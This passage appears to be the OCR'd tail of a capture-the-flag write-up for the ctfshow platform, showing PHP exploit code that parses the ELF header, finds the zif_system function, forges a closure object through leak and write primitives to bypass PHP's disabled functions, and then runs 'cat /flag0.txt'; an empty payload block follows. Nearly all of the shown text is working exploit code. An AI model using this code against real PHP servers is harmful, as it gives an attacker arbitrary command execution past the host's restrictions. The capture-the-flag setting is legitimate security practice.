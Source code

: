 ```
        die("Couldn't parse ELF header");
    }

    if(!($basic_funcs = get_basic_funcs($base, $elf))) {
        die("Couldn't get basic_functions address");
    }

    if(!($zif_system = get_system($basic_funcs))) {
        die("Couldn't get zif_system address");
    }


    $fake_obj_offset = 0xd0;
    for($i = 0; $i < 0x110; $i += 8) {
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    }

    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4);
    write($abc, 0xd0 + 0x68, $zif_system);

    ($helper->b)($cmd);
    exit();
}

ctfshow("cat /flag0.txt");exit();
```



payload:

```
```